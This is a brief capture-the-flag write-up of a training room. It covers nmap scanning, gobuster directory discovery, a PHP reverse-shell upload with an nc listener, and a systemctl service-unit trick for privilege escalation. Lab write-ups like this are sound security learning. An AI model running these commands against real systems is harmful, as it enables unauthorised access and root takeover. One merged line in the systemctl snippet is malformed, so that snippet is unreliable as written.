 # Vulnversity room
Learn about active recon, web app attacks and privilege escalation.

## what was done

* scan machine with nmap
```sh
nmap -sV <machines ip>
nmap -A -T5 <ip> -vv
nmap --script vuln <ip>
nmap -T5 -p- -vv <ip>
```

* locate directories with gobuster

```
gobuster dir -u http://<ip>:3333/ -w rockyou.txt
```

* Intercept traffic with Burp Suite

* reverse shell with php script

*https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php*

```
nc -lvp 1234
``` 

* escalate privilage by systemctl

```sh
eop=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' >$eop/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```



## what was learnt

*Never allow submit a php file in a form*

*we need to set proxy on browser in order burpsuit can read the network traffick*


## tools

* nmap
* gobuster
* burpsuit
* reverse shell with php script
* escale privilage through systemctl